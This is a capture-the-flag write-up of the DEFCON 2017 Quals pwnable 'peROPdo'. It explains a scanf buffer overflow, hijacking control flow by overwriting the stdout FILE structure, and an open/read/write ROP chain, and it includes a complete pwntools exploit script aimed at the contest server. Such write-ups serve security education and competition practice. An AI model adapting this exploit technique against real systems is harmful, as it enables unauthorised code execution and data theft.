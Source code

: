 title: DEFCON CTF 2017 Quals -- peROPdo
tags:
  - Python
  - C
  - DEFCON
  - CTF
  - Pwnable
  - ROP
  - BOF
  - file_stream_pointer_overflow
categories:
  - write-ups
author: bruce30262
date: 2017-05-02 14:58:00
---
**Category:** Potent Pwnables

32 bit ELF, static link, stripped, NX enabled, No PIE & canary.  

<!-- more -->

The program is a "rolling dice" program. First we input our name, then the program will ask us how many dice would we like to roll. After we input a number, the program will start generating some random data, then store them on the stack memory. The program will then print out `data[i] % 6 + 1`, which represent the numbers we roll in this round. 

There're two vulnerabilities in the program. First it use `scanf("%s", name)` to read our name, which lead to buffer overflow in the `name` buffer. Then, if we input a number that is larger than **23**, the data that program generated will overflow the `data[i]` buffer and **thus overwrite the return address** ( it will be a random data though ).  

Since the binary was stripped, I wasn't sure which algorithm the program used for randomizing, the only thing I knew is that the algorithm will use our name to generate the random data. At that moment, I thought it was just some self-implement function ( which is **NOT** correct, we'll get into that later).  

And so I thought "Hmmm, maybe I could use some symbolic execution tool to calculate the address I want to return, and do the ROP attack". **This was such a huge mistake**, since I'm not familiar with any of the symbolic execution tools -- [angr](http://angr.io/), [Triton](https://github.com/JonathanSalwan/Triton), not to mention the fresh out [manticore](https://github.com/trailofbits/manticore). Even worse, all of the tool failed to calculate the address -- Triton and manticore couldn't even execute the program, it just crashed :(  

After wasting lots of time with those symbolic execution tools, I decided to try something different -- the first vulnerability: overflowing the `name` buffer. And the result was encouraging -- since I found that I could hijack the control flow by using the `call reg` and the `call [reg+offset]` gadget ( we can control the content of several registers ). It seems that there're some `FILE*` pointer behind the `name` buffer, so we can exploit the service by [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/) ( we can't control the function parameters though). 

Here I chose to use the second gadget ( `call [reg+offset]` ), since when the program execute to that line of code, its second parameter will be the `FILE*` pointer of `stdout`. I control the `eip` and jump to the middle of the main function:  
```
mov     dword ptr [esp+4], offset name
mov     dword ptr [esp], (offset aSSSS+8) ; "%s" <--- I jump to here
call    scanf
mov     eax, ds:name
mov     [esp], eax
call    sub_0804baf0
mov     dword ptr [esp], offset name
call    do_main
```

This will make the program store the `%s` string to the first parameter, then call the `scanf` function, making the program calling `scanf("%s", stdout)` -- and thus we can control the content of `stdout` !

By crafting `stdout`, we can actually hijack the control flow, while having the first parameter controlled. This allowed us to do some advanced ROP attack. Here's what I did after I controlled the `eip`:  
1. Jump to `xchg esp, eax` gadget, migrate the stack to `stdout` (which now controlled by us)  
2. Use `add esp, offset` to skip the uncontrollable member data in `stdout`  
3. Since it's a static linked binary, it's easy for us to find some gadgets and do the **open/read/write** syscall, making the service print out the flag of the challenge. (The **execve** syscall seems to be filtered out in this challenge)  


Final exploit:  
```python exp_peropdo.py 
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "peropdo_bb53b90b35dba86353af36d3c6862621.quals.shallweplayaga.me"
PORT = 80
ELF_PATH = "./peropdo"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    #gdb.attach(r, gdbscript=open("./ggg", "r"))
    func = 0x0806d7aa # avoid crash
    scanf = 0x08048b2a
    name = p32(scanf) + p32(func) + "\x42"*972 + p32(0x80ecdf4) + '\x00'*92  + p32(0x80ecdf8) 
    r.sendlineafter("name?", name)

    # Later the program will call scanf("%s", stdout);
    # now we can overwrite the whole stdout FILE structure

    stream = p32(0x08079824) # second gadget: add esp, 0x84....
    stream += "/home/peropdo/flag\x00" # flag path
    stream = stream.ljust(0x1c, '\0')
    stream += p32(0x804b45c) # eip, first gadget: xchg esp, eax ; ret
    stream = stream.ljust(0x48, '\0')
    stream += p32(0x080ED3E8) # pointer to null
    stream = stream.ljust(0x90, '\0')
    stream += p32(0x807982b) # third gadget: pop; ret
    stream += p32(0x80eb2a0) # fake jump table
    
    # 0x08074f2e : mov eax, 5 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 
    # 0x08079465 : mov ebx, eax ; mov eax, ebx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    pop_ebx = 0x806f322  # pop ebx;ret
    pop_eax = 0x80e3525  # pop eax;ret
    pop_ecx = 0x080e5ee1 # pop ecx ; ret 
    pop_edx = 0x0806f2fa # pop edx ; ret
    int80 = 0x806fae0    # int 0x80 ; ret 
    buf = 0x80ed000-0x100
    rop = flat(
                pop_ecx,
                0,
                pop_edx, 
                0,
                0x08074f2e, # mov eax = 5 (open), pop ebx...
                0x80eb2a4, # ptr to flag path
                [0,0,0],
                int80,              
                pop_eax,
                3, # read
                pop_ebx,
                3, #fd
                pop_ecx,
                buf,
                pop_edx,
                0x100,
                int80,
                pop_ebx,
                1, # fd,
                pop_eax,
                4, # write
                int80
              )

    r.sendline(stream + rop)
    r.interactive()
```

flag: `Thanks to Kenshoto for the inspiration! 5fbb34920c457b2e0855a174b8de3ebc`  

Later did I know (thanks to teammate [Isaac](https://poning.me/)) that there's a thing call [FLIRT](https://www.hex-rays.com/products/ida/tech/flirt/index.shtml) in IDA Pro, which can help the user identify the function call in libc. All we need to do is download a FLIRT signature database from github ( [here's](https://github.com/push0ebp/sig-database) the DB I used for this challenge ), and use **FILE --> Load File --> FLIRT signature file** to load the database. IDA will then identify the function name, making the reverse engineering less painful. By using this technique, we'll be able to identify some libc function, even the location of `stdout`.  

And that's when I found that the "self-implement random" function is actually just `srand()` & `rand()` in libc. According to [meh](https://github.com/mehQQ) from HITCON, you can just brute-force the desired return address. Moreover, because the `name` buffer address is right under the return address, so you can just use `pop esp; ret` to migrate the stack into `name` buffer, and do the ROP attack. Guess I still got a lot of shit to learn :/
